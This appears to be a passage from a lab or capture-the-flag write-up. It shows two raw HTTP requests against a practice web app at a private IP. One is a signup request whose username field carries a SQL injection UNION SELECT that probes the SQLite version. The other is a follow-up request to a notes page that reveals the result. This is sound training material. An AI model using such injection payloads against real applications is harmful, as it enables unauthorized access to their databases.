 ```http
POST /challenge4/signup HTTP/1.1
Host: 10.10.223.194:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://10.10.223.194:5000
DNT: 1
Connection: close
Referer: http://10.10.223.194:5000/challenge4/signup
Cookie: session=eyJtYWluYXBwX3F1ZXJ5IjpmYWxzZX0.YQ0v6g.qh-mXSAfN1fNPh022bWlNfHkV3c
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=tgihf'+UNION+SELECT+'SQLite%20Version',sqlite_version()--&password=pass
```

```http
GET /challenge4/notes HTTP/1.1
Host: 10.10.223.194:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.223.194:5000/challenge4/home
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWJLy1OLYrPTFGyMjTRQRfPS8xNVbJSKknPzEhTVyjNy8zPUyhOzUlNLlFQLy7MySxJVShLVaoFAIQ5HHc.YQ02ug.v71P-Y5AEoup2Y-0lMvB62gfOP4
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
